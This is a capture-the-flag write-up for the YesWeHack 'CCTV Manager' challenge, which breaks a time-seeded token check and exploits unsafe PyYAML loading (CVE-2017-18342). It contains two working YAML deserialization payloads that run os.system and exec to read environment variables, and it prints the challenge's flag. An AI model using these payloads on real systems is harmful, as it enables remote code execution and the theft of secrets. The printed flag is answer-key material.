

# YesWeHack Dojo43 CCTV Manager Write-Up

<p align="justify">The targeted app is a firmware updater implementing a token-based access control.It generates a "root" token and compares it against a "guest" token provided by the user.
If the tokens match, it loads a YAML config (expected to contain firmware data), instantiates a Firmware object, and calls its update() method. As a matter of fact, update method from firmware class is empty and don't do anything.Finally, it renders an index.html template showing whether access was granted.</p>

## Code analysis
<p align="justify">The application implements a weak token-based authentication mechanism, where the server-generated token could be predicted or matched by an attacker. Combined with the insecure use of yaml.load() on untrusted input, this enabled malicious YAML payloads to trigger Python built-in functions and achieve Remote Code Execution (RCE). This flaw allowed attackers to bypass authentication, execute arbitrary code, and disclose sensitive information such as environment variables (including the flag). </p>

<p align="justify">Below is the function used to generate 'random' token, taking current time (namely server time) as seed :</p>

````python
def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))
````

<p align="justify">This is a very weak access control implementation insofar as server time can be easily catched using following cmdline. As a result token can be successfuly generated: </p>

````bash
curl -sI https://dojo-yeswehack.com | grep -i '^date:' | cut -d' ' -f2-
````

<p align="justify">Once token is validated yaml firware is loaded thanks to following lines. This load method is officialy deprecated for security reasons and depicted as unsafe.</p> 

````python
    try:
        data = yaml.load(yamlConfig, Loader=yaml.Loader)
        firmware = Firmware(**data["firmware"])
        firmware.update()
    except:
        pass
````

## CVE-2017-18342
<p align="justify"> This use of PyYaml load method is the subject of a CVE known as <a href="https://nvd.nist.gov/vuln/detail/cve-2017-18342">CVE-2017-18342</a>. This is actually a case of insecure YAML deserialization in which an attacker can leverage insecure YAML data load to use Python object constructors and as a result run commands in the environment of the challenge.</p>

## Flag read
<p align="justify">In this challenge, Flag is stored in FLAG venv and can be disclose easly using echo or cat. Once token auth is bypassed payloads below can be used to deisplay the Flag. A python script is attached to this repo with the full exploit.</p>

### solve 1 
<p align="justify">This first YAML payload return the flag in server output using os.system python object:</p>

````bash
firmware:
  version: !!python/object/apply:os.system
  - |
    echo $FLAG
````
<div align="center">

</div>

### solve 2  

<p align="justify">This second YAML payload return the flag in server output using builtins.exec python object and leveraging threading server behavior and error output:</p>

````bash
firmware:
  version: !!python/object/apply:builtins.exec 
  - |
    import threading
    def leak_flag():
        import os
        flag = os.environ.get("FLAG", "no_flag")
        raise Exception(f"FLAG_LEAK: {flag}")
    threading.Thread(target=leak_flag).start() # starting thread in server context triggers error relfected in output server (see snippet below)
````

<div align="center">

</div>

_Flag: FLAG{37e579d4f69510d4e79258973ae0aa8f}_, thanks _BrumensYWH_ for this challenge !
